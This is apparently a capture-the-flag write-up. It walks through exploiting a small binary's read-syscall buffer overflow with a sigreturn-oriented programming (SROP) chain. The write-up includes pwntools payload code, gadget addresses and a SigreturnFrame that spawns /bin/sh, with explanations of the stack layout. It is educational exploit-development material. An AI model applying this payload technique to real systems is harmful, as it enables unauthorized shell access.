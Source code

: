 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

As we can see, we can do something there!

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes by read syscall. And we can modify return address if we send enough bytes to override. First of all, we need to find a possible gadget and `/bin/sh` address.

![image](https://github.com/user-attachments/assets/618d8c46-cbd1-4c37-987e-bf7fc383a72f)


Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.
![image](https://github.com/user-attachments/assets/b9f3ec88-7915-49f1-88b1-25aac79cd63e)

```python
# Srop
POP_RAX =0x0043018
SYSCALL_RET=0x043015
BINSH = 0x43238
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
payload = b'a'*0x8  # 8 bytes override for save rbp
payload += p64(POP_RAX)
payload += p64(0xf)  # syscall number for rt_sigreturn(), search for linux syscall table
payload += p64(SYSCALL_RET)

frame = SigreturnFrame()
frame.rax = 0x3b           # syscall number for execve() function, u can search linux syscall table
frame.rdi = BINSH          
frame.rsi = 0x0             
frame.rdx = 0x0 
frame.rip = SYSCALL_RET   

payload += bytes(frame)
```
# Why I created like this. We should know how the stack allocate data.

[filler | rop.rax[0] | 0xf | rop.syscall[0] | Sigreturn Frame]

When SYS_read reads the payload onto the stack (at RSP - 8), the stack looks like this:
```
RSP-8: "aaaaaaaa"
RSP: rop.rax[0]
RSP+8: 0xf
RSP+16: rop.syscall[0]
RSP+24: [Sigreturn Frame]
```
The ret instruction jumps to the value at RSP now is RAX

Gadget pop rax; ret:
pop rax: Get 0xf from RSP+8 and allocate it to RAX.

ret: Skip to rop.syscall[0] at RSP+16.

The syscall gadget (at rop.syscall[0]) calls SYS_rt_sigreturn because RAX = 0xf now.
Why is this needed?

SYS_rt_sigreturn requires RAX = 0xf and needs a way to put this value into RAX. The pop rax utility; ret is the only tool in the program that is allowed to do that.
After RAX = 0xf, we need to call the syscall to execute. So this ROP string is the "start" step to move to the next stage.

Thinking: The ROP chain is like a "bridge" from the initial state of the program (after SYS_read) to the SROP mechanism.
# Sigreturn Frame Section - "Execute the final goal"

Goal: Provide a frame signal to the kernel to read when SYS_rt_sigreturn is called, from which registers are set to call execve("/bin/sh", NULL, NULL).

When SYS_rt_sigreturn is called (from the utility syscall in stage 1), the kernel checks the stack at location RSP for the Sigreturn Frame.

At this point, RSP points to RSP+24 (byte(frame) section), which contains the values:
RAX = 0x3b (execve syscall number).
RDI = binsh (pointer to /bin/sh).
RSI = 0x0 (NULL).
RDX = 0x0 (NULL).
RIP = rop.syscall[0] (return utility syscall).

The kernel "restores" these registers and jumps to rop.syscall[0].
The utility syscall is called again, but now RAX = 0x3b, so it executes execve("/bin/sh", NULL, NULL).

Why is this part needed?
SYS_rt_sigreturn doesn't know that we want to call execve. We have to provide a frame signal to "tell" the kernel: "Set the registers like this and jump here".

This is the only way to control multiple registers at once (RAX, RDI, RSI, RDX, RIP) without needing a longer ROP chain (which is hard to find in a small binary like this).

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)

